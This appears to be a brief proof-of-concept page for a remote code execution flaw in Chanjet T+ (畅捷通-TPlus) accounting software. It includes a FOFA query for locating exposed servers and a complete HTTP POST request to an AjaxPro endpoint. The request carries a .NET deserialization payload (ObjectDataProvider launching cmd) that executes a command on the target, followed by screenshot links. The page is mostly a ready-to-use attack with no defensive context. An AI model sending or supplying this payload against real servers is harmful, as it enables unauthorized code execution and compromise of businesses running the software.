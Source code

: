 fofa

```
app="畅捷通-TPlus"
```

POC

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
X-Ajaxpro-Method: GetStoreWarehouseByStore
Host: ip
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-type: application/x-www-form-urlencoded
Content-Length: 597

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c whoami > test.txt"
        }
    }
  }
}
```





![image-20240924134228254](https://ph-1307623205.cos.ap-nanjing.myqcloud.com/img/image-20240924134228254.png)





![image-20240924134450543](https://ph-1307623205.cos.ap-nanjing.myqcloud.com/img/image-20240924134450543.png
)
